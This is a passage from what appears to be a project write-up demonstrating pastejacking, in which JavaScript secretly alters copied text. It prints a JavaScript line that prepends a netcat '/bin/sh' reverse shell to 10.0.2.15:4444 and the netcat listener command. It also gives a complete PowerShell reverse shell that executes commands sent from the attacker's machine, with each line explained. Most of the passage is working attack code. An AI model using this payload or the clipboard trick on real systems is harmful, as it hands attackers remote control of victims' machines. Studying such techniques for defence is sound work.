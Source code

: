 ```js
                appended = 'nc - e /bin/sh 10.0.2.15 4444; ' + original;
            }
```

3. **Implementing Pastejacking and Executing the Malicious Code**: Through the use of JavaScript, the actual content that gets copied is manipulated. 
When users copy the code, additional malicious code is appended or prepended. This additional code is designed to spawn a reverse shell when pasted into the terminal and executed by the user.

## Reverse Shell

A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using the 'netcat' command, provides a controlling terminal.

In the context of this project, once the pastejacking technique is successfully implemented, the malicious code that gets executed on the victim's machine is designed to spawn a reverse shell. This shell connects back to the attacker's machine, specifically a Kali Linux system that is listening for incoming connections.

The Kali Linux system uses the `netcat` command to listen on port 4444, waiting to establish a TCP connection with the victim's machine. The command used is `nc -lvp 4444 -n`, where:
- `nc` stands for netcat.
- `-l` stands for listen mode, for inbound connects.
- `-v` stands for verbose, which causes netcat to be chatty, printing out progress messages.
- `p` stands for local port.
- `4444` is the port number to listen on.
- `-n` stands for numeric-only IP addresses, and not to do DNS resolution or service lookups.

The PowerShell code used to spawn the reverse shell works as follows:

```powershell
$client = New-Object System.Net.Sockets.TCPClient(\'10.0.2.15\',4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + \'PS \' + (pwd).Path + \'> \';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()};
$client.Close();
```

Where:
- `$client = New-Object System.Net.Sockets.TCPClient(\'10.0.2.15\',4444)`: This line creates a new TCP client that connects to the specified IP address and port.
-`$stream = $client.GetStream()`: This line retrieves the network stream used to send and receive data.
- `[byte[]]$bytes = 0..65535|%{0}`: This line creates a byte array of size 65536 (ranging from 0 to 65535), with each element initialized to 0.
- `while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){...}`: This is a while loop that continues as long as there is data to read from the network stream.
- `$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)`: This line converts the bytes read from the network stream into a string.
- `$sendback = (iex $data 2>&1 | Out-String )`: This line executes the command received from the attacker’s machine and converts the output to a string.
- `$sendback2 = $sendback + \'PS \' + (pwd).Path + \'> \'`: This line prepares the output to be sent back to the attacker’s machine.
- `$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)`: This line converts the output string to a byte array.
- `$stream.Write($sendbyte,0,$sendbyte.Length)`: This line sends the output back to the attacker’s machine.
- `$stream.Flush()`: This line clears the network stream to ensure that all data has been sent.
- `$client.Close()`: This line closes the TCP client.